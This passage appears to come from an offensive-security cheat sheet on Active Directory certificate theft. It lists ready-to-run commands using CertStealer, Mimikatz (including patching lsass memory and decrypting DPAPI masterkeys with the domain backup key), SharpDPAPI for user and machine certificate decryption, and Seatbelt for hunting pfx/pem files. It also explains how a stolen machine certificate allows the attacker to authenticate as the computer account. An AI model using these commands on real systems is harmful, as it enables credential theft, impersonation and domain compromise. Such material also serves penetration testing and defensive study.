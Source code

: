 With [CertStealer](https://github.com/TheWover/CertStealer):

```
Cmd > .\CertStealer.exe -export pfx <CERT_THUMBPRINT>
```

If the private key is non-exportable, use Mimikatz's `crypto::capi` (to patch CAPI in current process) or `crypto::cng` (to patch `lsass.exe` memory):

```
Cmd > .\mimikatz.exe "crypto::capi" "crypto::certificates /export" "exit"
```



### DPAPI User Keys (THEFT2)

Decrypt a domain user's masterkey with domain's backup key with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /rpc" "exit"
```

Decrypt masterkey if user's plaintext password is known with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /sid:<ACCOUNT_SID> /password:Passw0rd!" "exit"
```

Simplify the process with SharpDPAPI providing it a file with one or more `{GUID}:SHA1` masterkey mappings (will output a `.pem` file):

```
Cmd > .\SharpDPAPI.exe certificates /mkfile:C:\Temp\mkeys.txt
```



### DPAPI Machine Keys (THEFT3)

It's not possible to decrypt machine keys using the domain's DPAPI backup key, so the adversary can use the `DPAPI_SYSTEM` LSA secret on the system which is accessible only by the SYSTEM user:

```
# While elevated
Cmd > .\SharpDPAPI.exe certificates /machine
```

After converting the output to `.pfx` and if the appropriate EKU scenario is present, the adversary can use that `.pfx` for domain authentication *as the computer account* (see **PERSIST2**).



### Search for Certificate Files (THEFT4)

Find certificate files lying around with Seatbelt:

```
Cmd > .\Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
Cmd > .\Seatbelt.exe InterestingFiles
```
